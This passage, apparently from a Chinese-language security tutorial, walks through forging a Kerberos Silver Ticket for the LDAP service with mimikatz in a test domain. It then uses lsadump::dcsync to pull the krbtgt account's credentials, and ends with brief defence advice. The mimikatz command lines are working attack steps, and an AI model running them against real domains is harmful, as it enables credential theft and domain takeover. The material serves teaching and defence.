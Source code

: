 mimikatz导入Silver Ticket的命令为：

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 /target:WIN-8VVLRPIAJB0.test.local /service:LDAP /rc4:d5304f9ea69523479560ca4ebb5a2155 /user:krbtgt /ptt"

```

此时`dir \\WIN-8VVLRPIAJB0.test.local\c$`发现无法访问，也就是前面提到的

> Silver Ticket是伪造的TGS，也就是说其范围有限，只能访问指定的服务权限

如图，虽然成功导入，但是无法访问域控的文件共享![Alt text](http://drops.javaweb.org/uploads/images/e80f06512794b81ddee2b94a899b96f413943b1d.jpg)

但是执行如下命令可以远程访问LDAP服务来获得krbtgt的信息：

```
mimikatz "lsadump::dcsync /dc:WIN-8VVLRPIAJB0.test.local /domain:test.local /user:krbtgt"

```

如图，成功远程获得krbtgt账户信息![Alt text](http://drops.javaweb.org/uploads/images/ad1191e312de3baedffc0875cadba790968a991d.jpg)

注：

```
lsadump::dcsync
向 DC 发起一个同步对象（可获取帐户的密码信息）的质询。
需要的权限包括管理员组（Administrators），域管理员组（ Domain Admins）或企业管理员组（Enterprise Admins）以及域控制器的计算机帐户
只读域控制器默认不允许读取用户密码数据

```

参数选项：

```
/user - 要查询的用户id 或 SID
/domain（可选的）默认设置为当前域。
/dc（可选的）指定DCSync 连接的域控位置

```

当然，还有其他服务可通过伪造Silver Ticket访问：

如图列举了其他可用作Silver Ticket的服务：![Alt text](http://drops.javaweb.org/uploads/images/09da791ddfba9536ccbee0d373bfd02d0b16ea92.jpg)

此图片引用自https://adsecurity.org/?p=2011

0x06 防御
=======

* * *

1.  域控及时更新补丁
2.  时刻监控域控日志
3.  限制mimikatz使用

0x07 小结
=======
